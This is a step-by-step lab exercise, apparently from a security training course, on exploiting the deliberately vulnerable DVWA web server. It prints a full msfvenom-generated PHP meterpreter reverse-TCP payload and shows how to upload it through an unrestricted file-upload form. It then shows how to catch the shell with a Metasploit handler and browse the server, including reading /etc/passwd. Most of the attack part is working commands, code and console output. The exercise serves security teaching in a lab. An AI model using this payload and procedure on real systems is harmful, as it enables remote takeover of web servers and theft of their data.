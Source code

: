 Exercise 2: Exploiting a Web Server
===================================

This exploit uses some of the basic functions of the DVWA web site to
demonstrate how to hack through the site itself. A hacker would use this
as a means of circumventing your perimeter to gain access to your
applications, servers and data.

We will start by creating a pre-canned piece of php code that we will
upload to the web server through the upload function on DVWA. For this
exercise you will need to locate the external IP for your Kali server.
This IP is generated dynamically for each student but we have written a
script and an iRule on the CTF server to return the IP address you’ll
need.

On the Kali server, run the following:

msfvenom -p php/meterpreter/reverse\_tcp lport=4444 -f raw lhost=\`curl
-k https://ctf.f5lab.biz/whatismyip\`

% Total % Received % Xferd Average Speed Time Time Time Current

Dload Upload Total Spent Left Speed

100 14 100 14 0 0 492 0 --:--:-- --:--:-- --:--:-- 518

No platform was selected, choosing Msf::Module::Platform::PHP from the
payload

No Arch selected, selecting Arch: php from the payload

No encoder or badchars specified, outputting raw payload

Payload size: 950 bytes

/\*<?php /\*\*/ error\_reporting(0); $ip = '<YOUR-IP>'; $port = 4444; if
(($f = 'stream\_socket\_client') && is\_callable($f)) { $s =
$f("tcp://{$ip}:{$port}"); $s\_type = 'stream'; } elseif (($f =
'fsockopen') && is\_callable($f)) { $s = $f($ip, $port); $s\_type =
'stream'; } elseif (($f = 'socket\_create') && is\_callable($f)) { $s =
$f(AF\_INET, SOCK\_STREAM, SOL\_TCP); $res = @socket\_connect($s, $ip,
$port); if (!$res) { die(); } $s\_type = 'socket'; } else { die('no
socket funcs'); } if (!$s) { die('no socket'); } switch ($s\_type) {
case 'stream': $len = fread($s, 4); break; case 'socket': $len =
socket\_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen",
$len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch
($s\_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break;
case 'socket': $b .= socket\_read($s, $len-strlen($b)); break; } }
$GLOBALS['msgsock'] = $s; $GLOBALS['msgsock\_type'] = $s\_type;
eval($b); die();

Highlight the section of code that was generated – from the “/\*<?php”
to the end “die;”

Open a Command prompt on the Windows PC. In the command prompt type:

CD Desktop

Notepad hackdvwa.php

..  image:: media/cmd1.png

In Notepad, paste the copied code and Save and Close the file.

..  image:: media/notepad.png

Open a Web Browser and go to https://dvwa.vlab.f5demo.com

Log in with admin / password

Choose the Upload menu on the lower left

..  image:: media/dvwa.png

Click ‘Choose File’ and select the hackdvwa.php file you just created on
the Desktop and click ‘Upload’

..  image:: media/explorer.png

..  image:: media/upload.png

The file is then posted to the server and the location is displayed for
you as a means of confirmation. You can copy this and paste it at the
end of the URL in the browser.

In the browser, visit that file’s location:
http://dvwa.vlab.f5demo.com/hackable/uploads/hackdvwa.php

This will actually fail and you should see a “no socket” message, but
we’ll set that up next.

Back to the Kali ssh session we will set up the server to connect to
from the web server.

If you’re not within msfconsole anymore, start it:

msfconsole

Now we want to choose an exploit to run.

use exploit/multi/handler

To see what is selected for this exploit by default, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Exploit target:

Id Name

-- ----

0 Wildcard Target

this selects the exploit we’ll run in Metasploit

set payload php/meterpreter/reverse\_tcp

To see the options for this payload, type:

options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

This chooses the actual payload we’re going to send through the exploit
and we’ll set some parameters. To see the options:

show options

msf exploit(handler) > set payload php/meterpreter/reverse\_tcp

payload => php/meterpreter/reverse\_tcp

msf exploit(handler) > show options

Module options (exploit/multi/handler):

Name Current Setting Required Description

---- --------------- -------- -----------

Payload options (php/meterpreter/reverse\_tcp):

Name Current Setting Required Description

---- --------------- -------- -----------

LHOST yes The listen address

LPORT 4444 yes The listen port

Exploit target:

Id Name

-- ----

0 Wildcard Target

Set the options as follows:

set lhost 10.1.10.240

set lport 4444

lhost and lport
^^^^^^^^^^^^^^^

These options are the ‘local’ listening IP and port for the exploit.
Note that the IP here is the internal NAT’d IP address. In the above php
code you entered the External NAT’d address.

Return to your web browser on the Windows PC and refresh the page.

Now we can start the server:

exploit

exploit
^^^^^^^

Exploit is the fun command… here we are running the exploit we want to
see. You can also use ‘run’ but exploit is so much more Hacker.

After a few seconds, you should see:

[\*] Started reverse TCP handler on 10.1.10.240:4444

[\*] Starting the payload handler...

[\*] Sending stage (33986 bytes) to <YOURIP>

[\*] Meterpreter session 3 opened (10.1.10.240:4444 -> <IP>:PORT) at
<Date>

And then a moment or two later:

meterpreter >

Meterpreter
-----------

Meterpreter is the “Swiss Army Knife” of the Metasploit Framework. You
can open a meterpreter console up through an exploit, like we just did.
In this case, we set up Metasploit to listen for incoming traffic on
port 4444 on our NAT’d internet address. We had to do this because the
DMZ address isn’t accessible by the Web Server but it is allowed to
connect to the internet. We then run the uploaded php code we generated
which opens the connection and now we’re able to run commands on the web
server as though we had an ssh-like connection.

Let’s examine the web server so see what we can find.

In the Meterpreter shell type:

dir

We can the following:

meterpreter > dir

Listing: /var/www/dvwa/hackable/uploads

=======================================

Mode Size Type Last modified Name

---- ---- ---- ------------- ----

100644/rw-r--r-- 667 fil 2013-07-08 12:55:06 -0400 dvwa\_email.png

100644/rw-r--r-- 950 fil 2017-06-19 09:11:52 -0400 hackdvwa.php

100644/rw-r--r-- 951 fil 2017-06-14 13:50:15 -0400 hackme.php.txt

We can see what accounts are on this server by typing:

cat /etc/passwd

To see a list of the commands that are available to you, you can type
*help* at any point

Feel free to investigate the web server, when you’re finished type
*exit* and the Meterpreter shell will close.

Note that when you close the session, the web page finally ends
spinning.